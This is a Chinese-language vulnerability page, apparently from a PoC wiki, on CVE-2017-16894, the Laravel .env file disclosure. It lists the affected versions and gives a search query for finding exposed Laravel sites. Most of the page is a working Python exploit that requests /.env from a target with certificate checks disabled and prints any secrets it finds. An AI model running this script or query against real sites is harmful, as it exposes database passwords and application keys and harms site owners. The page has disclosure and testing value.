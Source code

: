 # Laravel .env 配置文件泄露 CVE-2017-16894

## 漏洞描述

Laravel Framework是Taylor Otwell软件开发者开发的一款基于PHP的Web应用程序开发框架。 Laravel framework 5.5.21及之前的版本中存在 .env 文件可被下载的信息泄露漏洞。远程攻击者可利用该漏洞获取敏感信息

## 漏洞影响

```
Laravel framework <= 5.5.21
```

## 网络测绘

```
app="Laravel-Framework"
```

## 漏洞复现

访问目标 url http://xxx.xxx.xxx.xxx/.env

当配置不当且在影响范围内时会出现 **.env可被下载的情况**，导致数据库账号密码等敏感信息的泄露

这里使用POC脚本来进行信息获取

![](images/202202091318311.png)

## 漏洞POC

```python
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: Laravel framework <= 5.5.21                              \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/.env"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "APP_NAME" in response.text:
            print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] .env 文件请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```


